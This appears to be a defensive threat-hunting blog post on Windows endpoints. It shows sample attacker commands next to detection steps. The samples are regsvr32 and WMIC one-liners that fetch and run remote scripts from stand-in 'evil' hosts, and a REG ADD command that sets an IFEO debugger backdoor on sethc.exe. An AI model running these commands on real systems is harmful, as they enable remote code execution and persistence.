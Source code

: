 ```yaml
---
layout: post
classes: wide
title:  "Threat Hunting in Windows Endpoints - Part 1"
date:   2024-12-07 01:00:00 +0800
--- 
```

This post provides details on threat hunting in the machines running in Windows operating system.  

 
### Introduction
Threat hunting in a Windows environment involves the proactive search for indicators of compromise (IOCs) and other malicious artefacts to detect threats. I have listed some of the hunting techniques in the Windows environment.

### **<u>Application Whitelisting Bypass: regsvr32.exe</u>**

In computing, regsvr32 (Microsoft Register Server) is a command-line utility in Microsoft Windows operating systems for registering and unregistering DLLs and ActiveX controls in the Windows Registry. Adversaries can still use Regsvr32.exe on Windows to download and execute files

`regSvr32 /s /n /u /i:http[:]//evil.php/evil.sct scrobj.dll`

`regsvr32` is invoking scrobj.dll to unregister COM objects defined in the evil.sct. Malicious code will be used in the sct file.
The SCT file ( an XML file) has a registration tag in it that can contain VBScript or JScript code.  The file can have any extension.It does not have to be `.sct`. There will be no artifacts left in registry if this utility is unregistering any COM object.

<u>Detection:</u>
- Look for regsvr32.exe prefetch files and Parsing the prefetch will provide the executed file. 
- Command execution and arguments passed to regsvr32.exe using EDR solutions.
- Look for suspicious process in the system with parent process as regsvr32.
- Hunt for Windows event id 4688 and filter the command arguments with following filter
`regSvr32 /s /n /u /i:http`


Note: Auditing policy for process tracking have to be enabled to trigger 4688 event id and in Advanced Audit Configuration ,
Detailed Tracking have to be enabled for recording process command arguments.

### **<u>Audit log cleared</u>**

Adversaries may clear the Windows audit logs to remove its footpath. Whenver audit logs are cleared , Windows triggers event id 104 or 1102 or 517.Look for these event ids in the machine and start your analysis.

<u>Detection:</u>
- Look for Event IDs 104,1102,517

### **<u>Bypass Authentication</u>**

Image File Execution Options (IFEO) are used for debugging and IFEO settings are stored in the Windows registry. This feature enables the developer to to attach a debugger to the known executables. Malwares exploit this feature for its persistence by adding a debugger to the below executables. whenever the below utilities are triggered, malcious executable will be executed.

`Windows Utilities`:
sethc.exe
magnify.exe
narrator.exe
osk.exe
utilman.exe
displayswitch.exe

`REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /d "C:/evil.exe"`

<u>Detection:</u>
  Sweep all the executables under below mentioned registry path  "Image File Execution Options" and look for "debugger" key name.
  
Registry Path:
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe

### **<u>Bypass Proxy using WMIC</u>**

WMIC shell is a windows utility that provide command line interface for WMI(Windows Management Instrumentation).This offers various administrative functions to query windows machines to get details such as system settings, process and also to execute scripts. Adversaries use this utility to download malicious payload to evade detections.

`wmic os get /FORMAT:"http://evil/evil[.]xsl"`
XSL script (eXtensible Stylesheet Language). WMI can invoke javascript or VBscript using XSL

<u>Detection:</u>
- WMIC.exe prefetch files and Parsing the prefetch will provide the downloaded file. 
- Command execution and arguments passed to wmic.exe using EDR solutions.
- Look for Windows event id 4688 and search the process command arguments with this utility names as a keyword along with below syntax 
`wmic os get /FORMAT:"http:/"`
- Look for http request for file/page ending with XSL from proxy log or Network recorder.